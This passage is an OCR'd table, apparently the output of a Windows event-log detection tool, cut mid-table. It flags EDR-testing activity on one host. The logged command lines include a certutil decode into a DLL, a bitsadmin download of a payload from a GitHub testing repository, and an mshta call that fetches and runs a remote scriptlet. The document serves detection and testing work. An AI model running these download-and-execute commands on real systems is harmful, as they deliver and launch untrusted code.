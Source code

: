     │                     │    │                                          │                                │                                                    │ trol_RunDLL "C:\Users\IEUser\Downloads\Invoice@058 │
    │                     │    │                                          │                                │                                                    │ 2.cpl",                                            │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:11:17 │ 1  │ ‣ Suspicious Call by Ordinal             │ "MSEDGEWIN10"                  │ C:\Windows\SysWOW64\rundll32.exe                   │ "C:\Windows\SysWOW64\rundll32.exe" "C:\Windows\Sys │
    │                     │    │                                          │                                │                                                    │ WOW64\shell32.dll",#44 "C:\Users\IEUser\Downloads\ │
    │                     │    │                                          │                                │                                                    │ Invoice@0582.cpl",                                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:32:58 │ 1  │ ‣ Suspicious Certutil Command            │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c certutil -f -decode fi.b64 AllTheThings.dll │
    │                     │    │                                          │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:32:59 │ 1  │ ‣ Suspicious Certutil Command            │ "MSEDGEWIN10"                  │ C:\Windows\System32\certutil.exe                   │ certutil -f -decode fi.b64 AllTheThings.dll        │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:03 │ 1  │ ‣ Bitsadmin Download                     │ "MSEDGEWIN10"                  │ C:\Windows\System32\bitsadmin.exe                  │ bitsadmin.exe /transfer "JobName" https://raw.gith │
    │                     │    │                                          │                                │                                                    │ ubusercontent.com/op7ic/EDR-Testing-Script/master/ │
    │                     │    │                                          │                                │                                                    │ Payloads/CradleTest.txt "C:\Windows\system32\Defau │
    │                     │    │                                          │                                │                                                    │ lt_File_Path.ps1"                                  │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:18 │ 1  │ ‣ Mshta JavaScript Execution             │ "MSEDGEWIN10"                  │ C:\Windows\System32\mshta.exe                      │ mshta.exe javascript:a=GetObject("script:https://r │
    │                     │    │ ‣ Suspicious Rundll32 Activity           │                                │                                                    │ aw.githubusercontent.com/op7ic/EDR-Testing-Script/ │
    │                     │    │                                          │                                │                                                    │ master/Payloads/Mshta_calc.sct").Exec();close();   │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤